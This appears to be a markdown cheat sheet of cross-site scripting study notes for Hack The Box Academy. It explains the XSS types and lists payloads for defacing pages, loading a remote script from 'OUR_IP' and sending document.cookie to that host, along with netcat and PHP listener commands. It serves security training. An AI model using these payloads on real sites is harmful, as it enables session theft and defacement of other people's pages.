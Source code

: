 # Cross-Site Scripting (XSS)

## Types of XSS
There are three main types of XSS vulnerabilities:

| Type                | Description                                                                 |
|---------------------|-----------------------------------------------------------------------------|
| Stored (Persistent) XSS | Occurs when user input is stored in a database and displayed (e.g., posts). |
| Reflected (Non-Persistent) XSS | Occurs when input is processed and shown without storage (e.g., search).   |
| DOM-based XSS       | Occurs when input is client-side processed and displayed (e.g., parameters).|

## Basic Stored XSS Payloads

| Code | Description |
|------|-------------|
| `<script>alert(window.origin)</script>` | windows.origin shows the URL of the stored XSS if IFrames being used |
| `<plaintext>` | Stops the rendoring of any HTML code that comes after |
| `<script>print()</script>` | Pop up the browser print dialog |



| Code | Description |
|------|-------------|
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Command | Description |
|---------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run xsstrike on a url parameter |
| `sudo nc -lvnp 8080` | Start netcat listener |
| `sudo php -S 0.0.0.0:8080` | Start PHP server |

## Useful Links

- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

